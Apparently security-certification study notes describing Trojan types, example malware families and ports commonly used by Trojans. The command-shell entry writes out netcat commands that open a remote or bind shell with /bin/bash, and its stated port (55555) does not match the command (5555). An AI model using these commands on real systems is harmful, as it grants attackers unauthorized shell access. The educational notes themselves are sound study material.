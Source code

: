 #### Trojan

- Software that appears to perform a desirable function but instead performs malicious activity
- To hackers, it is a method to gain and maintain access to a system
- Trojans are means of delivery whereas a backdoor provides the open access

##### Types of Trojans

- **Remote Access Trojan** \(RAT\): providing attackers with full control over the victim's system, enabling them to remotely access files, private conversations, accounting data, and others
  - PoisonIvy
  - MoSucker
  - Blackhole
- **Backdoor Trojan**: RAT has UI, the client component, whereas a backdoor does not
- **Botnet Trojan**: infecting numerous of computers across a large geographical area to create a network of bots that is controlled through a Command and Control \(C&C\) center
  - Necurs
  - Mirai
- **E-banking Trojans**: intercepting victim's account informed before the system can encrypt it, and send it to the attacker's C&C center
  - Zeus
- **Proxy Server Trojan**: usually a standalone application that allows remote attackers to use the victim's computer as a proxy to connect to the Internet
- **Covert Channel Tunneling Trojan** \(CCTT\): a RAT, creating arbitrary data transfer channels in previously authorized data streams
- **Defacement Trojan**: once spreading over the system, can destroy or change the entire content present in a database
- **Command Shell Trojan**: providing a backdoor to connect to through command-line access
  - **Netcat**
    - "Swiss army knife" of tcp/ip hacking
    - Providing all sorts of control over a remote shell on a target
    - Can connect over TCP or UDP, from any port
    - Offering DNS forwarding, port mapping and forwarding and proxying
    - Connect: `nc -e IPaddress Port#`
    - Open a listening port on 55555 from target machine: `nc -l -p 5555 -e /bin/bash`
  - **CryptCat**: encrypted version of netcat

##### Some Trojan Port Numbers

| Trojan Name       | Port    |
| :---------------- | :------ |
| Death             | 2       |
| Senna Spy         | 20      |
| Hackers Paradise  | 31,456  |
| TCP Wrappers      | 421     |
| Doom, Santaz Back | 666     |
| Silencer, WebEx   | 1001    |
| RAT               | 1095-98 |
| SubSeven          | 1243    |
| Shiva-Burka       | 1600    |
| Trojan Cow        | 2001    |
| Deep Throat       | 6670-71 |
| NetBus            | 12345-6 |
| Whack a Mole      | 12361-3 |
| Back Orifice      | 31337,8 |